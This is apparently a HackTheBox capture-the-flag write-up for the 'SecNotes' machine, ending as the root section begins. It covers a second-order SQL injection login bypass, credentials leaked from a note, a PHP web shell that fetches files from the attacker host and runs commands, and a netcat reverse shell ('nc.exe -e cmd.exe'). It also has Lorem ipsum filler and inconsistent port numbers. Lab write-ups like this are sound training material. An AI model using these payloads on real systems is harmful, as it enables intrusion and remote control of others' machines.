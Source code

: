 ```yaml
---
title: "HTB Write-up: SecNotes"
date: 2018-12-25
category: [HackTheBox]
tags: [HackTheBox, HTB, windows, ]
header:
    teaser: "/assets/images/htb/secnotes/secnotes.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![secnotes_info.png](/assets/images/htb/access/secnotes_info.png)

*Note: I completed this challenge on December 25th, 2018, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

## User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this initial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.97
```

From `masscan`, it was revealed that TCP 8808, 80 (HTTP), and 8808 were listening for connections. Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 8808,80,445 -sC -sV -oA scans/discovered-tcp 10.10.10.97 
```

As expected, the service listening on port 445 is SMB and the service listening on port 80 is Microsoft IIS HTTP. The resuts of the nmap scan suggests that the service lisetning on port 8808 is a Microsoft IIS HTTP service as well. The results of the nmap scan are shown below.

![nmapresults.png](/assets/images/htb/secnotes/nmapresults.png)

Browsing to `http://10.10.10.97` contains a simple login page with an option to sign up for an account. The `login.php` index file hints that the server runs PHP code.

![login_page.png](/assets/images/htb/secnotes/login_page.png)

Browsing to `http://10.10.10.97:8808` unveils only the default Microsoft IIS page. The directory-busting tool `gobuster` was run at this time to enumerate any additional directories present on port 8808. The command to accomplish this is shown below.

```
root@kali:~/workspace/hackthebox/SecNotes# gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.97:80
```

No additional directoriess were found as a result of the `gobuster` command.

While the `gobuster` tool was doing its work, an attempt to connect to to the SMB service on port 445 was made using the `smbclient` command shown below.

```
root@kali:~/workspace/hackthebox/SecNotes# smbclient -L //10.10.10.97
```

This command aims to list the SMB shares, however the server did not allow for passwordless access in this case.

![smb_attempt.png](/assets/images/htb/secnotes/smb_attempt.png)

Continuing on with the page found at `http://10.10.10.97`, a new user account was created, as shown below.

![new_account.png](/assets/images/htb/secnotes/new_account.png)

Upon logging into the newly created account, the page shown below is reached. The basic page functionality is demonstrated.

![web_function.gif](/assets/images/htb/secnotes/web_function.gif)

Moving back to the login page, basic SQL injection can be tested. If user data is not sanitized with a SQL querty, then sometimes login restrictions can be bypassed. A basic SQL injection string is shown below.

```
username' OR 1=1#
```

While logging in with this username is unsuccesful. A similar method from another HackTheBox machine, Nightmare, can be attempted. This method involves creating a user with the SQL injection string before attempting to login.

After creating a user with the username `username' OR 1=1#`, logging in with this account allows for every note to be read. This suggests that the vulnerable SQL query is used during the login process only when an account already exists in the database.

The "Mimi's Sticky Buns" note contains a recipe for some delicious sounding sticky buns. The "Years" note contains the contents shown below:

```
"1957, 1982, 1993, 2005, 2009*, and 2017
```

The "new site" note contains what appears to be a username and password for the SMB service on port 80.

```
\\secnotes.htb\new-site
tyler / 92g!mA8BGjOirkL%OG*&
```

As expected, these credentials provide access to the SMB service. The SMB shares can now be listed and accessed.

![newsite_smb.png](/assets/images/htb/secnotes/newsite_smb.png)

The `iisstart.htm` and `iisstart.png` files along with the share name `new-site` line up neatly with the IIS service running on TCP port 8808.

Additionally, remote files can be written to the SMB share with the SMB `put` command once connected.

It has been noted that the webserver running on port 80 is Microsoft IIS and that it executes PHP code. As the service on port 8808 is also Microsoft IIS and is running on the same system, it is likely that it also will execute PHP code. To test this, a `hmm.php` can be created and transferred to the target system. The contents of `hmm.php` are shown below.

```php
<?php system("dir");?>
```

If all goes as planned, the remote server will execute this code which will result in the Windows `dir` command being run on the system. Browsing to `http://10.10.10.97:88080/hmm.php` confirms that the server is executing PHP code.

![hmm_php.png](/assets/images/htb/secnotes/hmm_php.png)

To leverage this position into a reverse shell, the following steps can be taken.

1. Host `nc.exe` on the attacking machine.
2. Set up a `nc` listener on the attacking machine.
3. Transfer `nc.exe` onto the remote system.
4. Execute `nc.exe -e cmd.exe 10.10.14.2 4444` on the remote system.

To achieve the first step, the Python SimpleHTTPServer module can be used, as shown below.

```
root@kali:~/workspace/hackthebox/SecNotes# cd ~/Tools/; python -m SimpleHTTPServer 80; cd -
```

This assumes that `nc.exe` is present in the `~/Tools` directory. The command will first `cd` into the `Tools` directory before hosting the contents of the directory on port 80. Once the command is interrupted, the directory will be changed back to the original directory.

The second step can be achieved with `nc`. A simple listener can be set up with `nc -lp 4444`. This will listen for connections on the local attakcing machine on TCP port 4444.

For steps three and four, the helpful `catch.php` file will be used, the contents of which is shown below.

```php
<?php

if (isset($_REQUEST['fupload'])) {
    file_put_contents($_REQUEST['fupload'], file_get_contents("http://10.10.14.2/" . $_REQUEST['fupload']));
};

if (isset($_REQUEST['fexec'])) {
    echo "<pre>" . shell_exec($_REQUEST['fexec']) . "</pre>";
};

?>
```

Once `catch.php` has been transferred to the `new-site` SMB share and steps one and two outlined above are complete, `catch.php` can be utilized by browsing first to `/catch.php?fupload=nc.exe` followed by browsing to `/catch.php?fexec=nc.exe -e cmd.exe 10.10.14.2 4444`. This process is demonstrated below.

![catch_php.gif](/assets/images/htb/secnotes/catch_php.gif)

The user flag can now be read.

![user_txt.png](/assets/images/htb/secnotes/user_txt.png)

## Root
